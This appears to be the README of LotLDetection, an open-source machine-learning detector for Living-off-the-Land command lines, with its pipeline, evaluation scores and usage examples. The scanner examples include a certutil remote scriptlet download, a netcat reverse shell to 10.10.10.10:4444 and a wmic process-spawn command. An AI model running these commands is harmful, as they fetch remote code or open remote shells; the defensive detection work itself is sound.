

<div align="center">

# LotLDetection

### Living-off-the-Land Attacks Detection System by Machine Learning

[](https://www.python.org/)
[]()
[]()

---

</div>

## Overview

LotLDetection is a security framework designed to detect Living-off-the-Land techniques across Windows and Linux command lines. By abusing trusted, cryptographically signed administrative utilities such as `certutil`, `wmic`, `netsh`, `powershell`, or standard POSIX binaries, adversaries execute malicious actions while blending into legitimate enterprise administration traffic.

LotlDetection integrates rule-based semantic feature engineering, dual-view de-obfuscation, platform-calibrated Random Forest classification, and Sentence-BLEU lexical matching against authoritative threat corpora.

---

## System Workflow

The detection engine processes incoming command lines through a multi-stage hybrid pipeline:



### Execution Steps:
1. **Input and Normalization:** Unrolls command-line escape characters such as Windows caret, strips redundant whitespace, categorizes IPv4 addresses into private or public tiers, and tokenizes command components.
2. **Feature Extraction:** Matches tokens against binary registries, sensitive system paths, and behavioral regular expressions to produce a semantic label vector.
3. **Dual-Track Evaluation:**
   - **Statistical track:** Transforms labels via `CountVectorizer` and computes malicious posterior probability using a 100-tree balanced Random Forest.
   - **Lexical track:** Computes runtime Sentence-BLEU similarity against historical attack corpora.
4. **Decision Logic:** Emits an actionable verdict based on platform-calibrated risk thresholds:
   - Returns **BAD** if a Sentence-BLEU match is detected or Random Forest probability meets/exceeds the decision threshold (0.35 for Windows, 0.60 for Linux).
   - Returns **NEUTRAL** if fewer than 1 feature label is detected (insufficient observable telemetry).
   - Returns **GOOD** if sufficient feature labels are present and the probability falls below threshold.

---

## Evaluation Results

### Windows Test

```text
Test [windows]: 390 samples
              precision    recall  f1-score   support

Good/Neutral     0.9928    0.9858    0.9893       281
         Bad     0.9640    0.9817    0.9727       109

    accuracy                         0.9846       390
   macro avg     0.9784    0.9837    0.9810       390
weighted avg     0.9848    0.9846    0.9847       390

TN=277 FP=4 FN=2 TP=107
NEUTRAL=8 (including 0 BAD samples)
```

### Linux Test

```text
Test [linux]: 897 samples
              precision    recall  f1-score   support

Good/Neutral     0.9425    0.9765    0.9592       638
         Bad     0.9364    0.8533    0.8929       259

    accuracy                         0.9409       897
   macro avg     0.9395    0.9149    0.9261       897
weighted avg     0.9408    0.9409    0.9401       897

TN=623 FP=15 FN=38 TP=221
NEUTRAL=13 (including 5 BAD samples)
```

---

## Quick Start

### 1. Installation

Prerequisites: Python 3.11+

```powershell
cd D:\Github\LotLDetection
python -m venv .venv
.\.venv\Scripts\Activate.ps1
pip install -r requirements.txt
```

### 2. Command-Line Detection

- Interactive Console Mode:
  ```powershell
  python scripts/scan.py --platform windows
  ```
  ```text
  LotlDetection [windows] - type exit to quit
  >>> cmd.exe /c certutil.exe -urlcache -split -f http://example.com/file.sct scrobj.dll
  Prediction: BAD

  >>> exit
  ```

- Ad-Hoc Single Command Scan:
  ```powershell
  python scripts/scan.py --platform windows "wmic process call create 'cmd.exe /c whoami'"
  python scripts/scan.py --platform linux "nc -e /bin/sh 10.10.10.10 4444"
  ```

- Batch File Inspection:
  ```powershell
  python scripts/scan.py --platform windows --file telemetry_commands.txt
  ```

### 3. Model Training and Evaluation

```powershell
# Retrain model
python scripts/train.py --platform windows
python scripts/train.py --platform linux

# Evaluate on test holdout
python scripts/evaluate.py --platform windows
python scripts/evaluate.py --platform linux
```

---

## Artifact integrity and corpus validation

Training writes `classifier_sha256`, `vectorizer_sha256`, and `corpus_sha256`
into each platform's `feature_config.json`. Before deserialization, the predictor
validates both artifact hashes and loads the exact verified byte snapshots.
Missing/invalid hashes, missing files, and mismatched content fail closed with
`ValueError("Model artifact integrity check failed: ...")`. Models created before
these checks must be retrained.

The metadata is a trust anchor: protect it together with the application code.
An attacker who can replace both artifacts and their expected hashes can bypass
plain SHA-256 checks; this is integrity validation against trusted metadata, not
artifact authentication by a signature.

The vectorizer currently used by training is `CountVectorizer` over symbolic
labels. The integrity check also applies if a future model uses TF-IDF.

```powershell
python -m unittest discover -s tests -v
```

See [corpus notes](data/external/README.md) for coverage, constraints, sources,
and the corpus update workflow.

## Project Structure

```text
LotlDetection/
├── README.md
├── requirements.txt
│
├── data/
│   ├── raw/
│   │   ├── windows.csv             # 3,941 curated Windows LotL samples (3,218 Good, 723 Bad)
│   │   └── linux.csv               # 8,969 curated Linux LotL samples (6,382 Good, 2,587 Bad)
│   ├── external/
│   │   ├── cmd_known.corpus        # 167 Windows reference commands
│   │   └── bash_known.corpus       # 137 Linux reference commands
│   └── features/
│       ├── windows/train.csv       # Windows feature matrix (3,546 rows x 537 features)
│       └── linux/train.csv         # Linux feature matrix (7,989 rows x 816 features)
│
├── models/
│   ├── windows/
│   │   ├── rf_classifier.joblib    # Random Forest model
│   │   ├── vectorizer.joblib       # CountVectorizer vocabulary mapping
│   │   └── feature_config.json     # Configuration hashes and threshold metadata
│   └── linux/
│       ├── rf_classifier.joblib    # Random Forest model
│       ├── vectorizer.joblib       # CountVectorizer vocabulary mapping
│       └── feature_config.json     # Configuration hashes and threshold metadata
│
├── scripts/
│   ├── scan.py                     # Command-line scanner
│   ├── train.py                    # Model training pipeline
│   └── evaluate.py                 # Holdout test set evaluation script
│
└── src/
    ├── config.py                   # Hyperparameters, paths, and calibrated thresholds
    ├── data.py                     # Ingestion, stratified splitting, and sparse matrix export
    ├── evaluation.py               # Classification reporting and confusion matrix routines
    ├── features/                   # Feature extraction modules
    │   ├── label_generators.py     # Regex and keyword label extractors
    │   ├── pipeline.py             # Feature pipeline orchestrator
    │   ├── rules_constants.py      # Binary dictionaries, path constants, and rules
    │   └── similarity.py           # Sentence-BLEU n-gram similarity engine
    ├── models/
    │   ├── predictor.py            # Inference engine and decision logic
    │   └── trainer.py              # Random Forest training engine
    └── preprocessing/              # Text normalization
        ├── normalizer.py           # Caret unmasking and IPv4 extraction
        └── tokenizer.py            # Windows CMD and POSIX tokenizers
```

---

## References

1. LOLBAS Project: https://lolbas-project.github.io
2. GTFOBins Project: https://gtfobins.github.io
3. CISA Advisory AA24-038A: https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a
4. Atomic Red Team: https://github.com/redcanaryco/atomic-red-team
5. libLOL: Machine Learning and Feature Engineering for Detecting Living off the Land Attacks, IoTBDS, 2022.

---

<div align="center">
  <sub>LotlDetection is an open-source cybersecurity project developed for enterprise threat detection and academic research. Licensed under Apache 2.0.</sub>
</div>
